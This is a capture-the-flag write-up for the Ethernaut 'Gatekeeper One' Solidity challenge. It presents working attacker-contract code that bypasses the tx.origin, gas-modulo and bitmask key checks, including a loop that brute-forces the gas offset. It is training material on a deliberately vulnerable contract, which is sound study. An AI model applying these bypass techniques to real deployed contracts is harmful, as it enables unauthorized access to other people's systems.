 # Gatekeeper One

Make it past the gatekeeper and register as an entrant to pass this level.
Things that might help:
* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the msg.gas special variable, or its preferred alias gasleft(), in Solidity's documentation.
```javascript
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

---

In this challenge, we need to bypass those modifier.

`gateOne` chould be easily bypassed with technical we learned in `Telephone`.

`gateThree` chould be easily resolved with replace last 3rd, 4th bytes with `00`, that will make following result (for example):

| Parameter | Result |
| -------- | -------- | 
|bytes8(tx.origin)|`0x8dfe2f44e8fa733c`|
|bytes8(uint16(tx.origin)) | `0x000000000000733c` |
|bytes8(uint32(tx.origin))| `0x00000000e8fa733c` |
|bytes8(uint32(bytes8(tx.origin) & 0xFFFFFFFF0000FFFF))| `0x000000000000733c` |

Then `uint32(_gateKey) == uint16(_gateKey)`.

| Parameter | Result |
| -------- | -------- | 
|bytes8(uint32(bytes8(tx.origin) & 0xFFFFFFFF0000FFFF))| `0x000000000000733c` |
|bytes8(uint64(tx.origin))|`0x8dfe2f44e8fa733c`|
|bytes8(uint64(uint16(tx.origin)))|`0x000000000000733c`|
|bytes8(uint64(bytes8(tx.origin) & 0xFFFFFFFF0000FFFF))|`0x8dfe2f440000733c`|

Then `uint32(_gateKey) != uint64(_gateKey)`.

| Parameter | Result |
| -------- | -------- | 
|bytes8(uint32(bytes8(tx.origin) & 0xFFFFFFFF0000FFFF))| `0x000000000000733c` |
|bytes8(uint16(tx.origin)) | `0x000000000000733c` |

Then `uint32(_gateKey) == uint16(tx.origin)`.

Use `(bytes4(keccak256("enter(bytes8)"))` to call target function, which also easy for us to control how many exactly gas we used.
```javascript
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract GateOneSkipper {
    bytes8 _gateKey = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;

    function Skipper(address _param, uint16 gas) public returns(bool){
        //GatekeeperOne target = GatekeeperOne(_param);
        if(address(_param).call.gas(gas)(bytes4(keccak256("enter(bytes8)")), _gateKey)){
            return true;
        } else {
            return false;
        }
        
    }
}
```

In local VM environment, we use `GateOneSkipper` to call `GateKeeperOne` with `41123` gas for testing.

![](https://i.imgur.com/D0gWE5j.png)

In debugger, some writeups said that call `msg.gas` might be the last gas number.

But it's totally wrong cuz to `GAS2` action also costs gas, but in current 274 line, contract still not pay for it.

We should move to next EVM opcode to check the remaining, `40955`.

![](https://i.imgur.com/CLpFrlQ.png)

![](https://i.imgur.com/rwc6HNw.png)

However, it still failed on ropsten to challenge.

Due to `gas` will not be always static on block, the proper gas offset to use will vary depending on the compiler version and optimization settings used to deploy the factory contract.

I find a suggustion [here](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/GatekeeperOneAttack.sol), to give it a range then BrutalForce it out the answer.

```javascript
pragma solidity ^0.4.18;

contract GateOneSkipper {
    bytes8 _gateKey = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;

    function Skipper(address _param) public returns(bool){
        // gas offset usually comes in around 210, give a buffer of 60 on each side
        for (uint256 i = 0; i < 120; i++) {
            if (address(_param).call.gas(i + 150 + 8191 * 3)(bytes4(keccak256("enter(bytes8)")), _gateKey)) {
                return true;
            }
        }
    }
}
```

Then check if address `entrant` changed?

```javascript
await contract.entrant()
```